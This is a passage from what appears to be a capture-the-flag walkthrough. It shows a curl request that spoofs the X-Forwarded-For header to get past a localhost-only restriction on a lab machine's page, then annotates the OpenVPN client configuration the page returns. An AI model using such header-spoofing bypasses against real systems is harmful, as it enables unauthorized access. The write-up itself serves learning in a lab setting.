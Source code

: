 With localhost restrictions I do not get in but from the message point of view I need to use victim machine IP here 🔻

```http
└─$ curl --path-as-is -i -s -k -X 'GET' 'http://10.0.2.34/service/index.php' -H  "X-Forwarded-For:10.0.2.34"
HTTP/1.1 200 OK
Date: Sat, 02 Aug 2025 05:25:03 GMT
Server: Apache/2.4.62 (Unix)
X-Powered-By: PHP/8.4.5
Content-Length: 326
Content-Type: text/html; charset=UTF-8

# Last modified by shinosawa
# on 2024-12-21

# Example Configuration File

client
dev tun
proto udp
remote ? ?
resolv-retry infinite
nobind
persist-key
persist-tun
ca ?
cert ?
# Regenerate a STRONG password for the KEY
# Do NOT use a SAME password as other services et. SSH
# it is DANGEROUS!
key ?
cipher AES-256-GCM
verb 3
```
{: .nolineno }

This message / data shows the exact format or contents that contains by an <mark style="background: #FFB86CA6;">OpenVPN</mark> file.

___

## **5️⃣ Exploitation**

### Content:

Let me show you the format of <mark style="background: #FFB86CA6;">OpenVPN</mark> file for example 🔻

```
client                      <-- Client Mode
dev tun                     <-- Tunnel Device
proto udp                   <-- UDP Protocol
remote your_server_ip 1194  <-- Server Address:Port
resolv-retry infinite       <-- Resolve DNS Continuously
nobind                      <-- No Local Port Binding

ca ca.crt                   <-- CA Certificate File
cert client.crt             <-- Client Certificate File
key client.key              <-- Client Private Key

tls-auth ta.key 1           <-- TLS Auth Key:Direction

cipher AES-256-GCM          <-- Encryption Cipher
auth SHA256                 <-- Auth Algorithm
```